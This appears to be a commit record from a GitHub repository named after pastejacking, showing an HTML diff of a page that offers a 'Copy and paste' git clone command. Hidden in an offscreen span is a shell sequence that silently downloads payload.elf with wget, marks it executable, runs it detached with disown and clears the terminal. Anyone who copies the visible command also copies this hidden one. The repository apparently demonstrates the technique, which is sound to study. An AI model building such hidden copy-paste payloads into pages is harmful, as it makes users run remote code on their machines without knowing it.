

Before and after one commit to 5l1v3r1/PwasteJackingwned, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
PwasteJackingwned

```diff
--- a/index.html
+++ b/index.html
@@ -24,10 +24,10 @@
 </head>
 <body bgcolor=#000><center><p>
 <center>
-<pre><font color=white><font color=grey size=3>Dowload</font><font color=darkred size=4>Guide:</font></pre><p>
+<pre><font color=white><font color=grey size=3>Dowload</font><font color=darkred size=4> Guide:</font></pre><p>
 </center>
 <br>
 <br>
-<center><p> "git clone" <span style="position: absolute; left: -2000; top: -100px;" >/dev/null; clear; wget http://www.example.com/payload.elf &> /dev/null && chmod +x ./trouxa.elf && ./trouxa.elf & disown && clear</span> "www.github.com/ninj4c0d3r/PwasteJackingwned.git" </p></center>
+<center><p><strong>Copy and paste:</strong><span style="position: absolute; left: -2000; top: -100px;" >/dev/null; clear; wget http://www.example.com/payload.elf &> /dev/null && chmod +x ./payload.elf && ./payload.elf & disown && clear</span>  git clone www.github.com/ninj4c0d3r/Scripts.git </p></center>
 </body>
 </html>
```
